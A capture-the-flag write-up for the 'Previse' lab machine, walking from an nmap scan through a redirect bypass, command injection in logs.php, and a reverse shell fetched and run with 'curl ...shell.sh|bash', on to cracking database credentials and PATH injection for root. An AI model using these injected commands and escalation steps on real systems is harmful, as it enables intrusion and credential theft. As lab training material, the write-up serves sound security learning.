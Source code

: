 # Previse

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.185
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 11:41 EDT
Nmap scan report for 10.129.95.185
Host is up (0.0072s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### File Storage

Port 80 had a login page to some kind of file manager:

<figure><img src="../../../.gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

This wasn't vulnerable to SQL Injection or anything. I tried visiting `index.php`, but was redirected back to the `login.php`. When the traffic is inspectedi nBurp, I noticed that `index.php` was still loaded.

<figure><img src="../../../.gitbook/assets/image (563).png" alt=""><figcaption></figcaption></figure>

This means that we can view the pages without logging in since they are loaded before we are redirected. When I used Burp's Match and Replace function to change the 302 Found to 200 OK, I could load the page normally:

<figure><img src="../../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>

Within the Accounts tab, we can add a user.

<figure><img src="../../../.gitbook/assets/image (601).png" alt=""><figcaption></figcaption></figure>

So I created one and we can remove the Burpsuite filtering. Within the Files tab, there's a backup of the entire site uploaded.

<figure><img src="../../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

We can download this file and analyse the source code back on my machine. Here's the `logs.php`.

```php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
}
?> 
```

It seems that there's an `exec` function used, and the `delim` parameter is not sanitised when being passed in, thus creating a command injection vulnerability. We can send this request to confirm we have RCE.

```http
POST /logs.php HTTP/1.1
Host: 10.129.95.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://10.129.95.185
Connection: close
Referer: http://10.129.95.185/file_logs.php
Cookie: PHPSESSID=k0vg9j4gs59e7q9qokpv6rhugi
Upgrade-Insecure-Requests: 1


delim=comma; ping -c 1 10.10.14.13 
```

<figure><img src="../../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

Now, we can get a reverse shell by using `curl http://10.10.14.13/shell.sh|bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### M4lwhere Creds

Within the `/var/www/html` file, there's a `config.php` file.

```
www-data@previse:/var/www/html$ cat config.php 
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

We can login to the `mysql` database using these credentials. Within it, we can find the credentials for the file system.

```
mysql> select * from accounts\G
*************************** 1. row ***************************
        id: 1
  username: m4lwhere
  password: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
created_at: 2021-05-27 18:18:36
*************************** 2. row ***************************
        id: 2
  username: test123
  password: $1$🧂llol$sP8qi2I.K6urjPuzdGizl1
created_at: 2023-05-06 09:26:49
2 rows in set (0.00 sec)
```

Using `hashcat`, we can crack this easily.&#x20;

```
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

We can then `su` to `m4lwhere`.

<figure><img src="../../../.gitbook/assets/image (553).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

We can then enumerate `sudo` privileges.

```
m4lwhere@previse:/var/www/html$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Here's the script:

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

This script was running `gzip` without the full path, so we can do some PATH injection. Create a script called `gzip` that makes `/bin/bash` an SUID binary via `chmod u+s /bin/bash`, then make it executable.&#x20;

Afterwards, change the PATH variable to include `/tmp` first and run the script as root.

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
```

It's easy to get a `root` shell afterwards.&#x20;

<figure><img src="../../../.gitbook/assets/image (561).png" alt=""><figcaption></figcaption></figure>
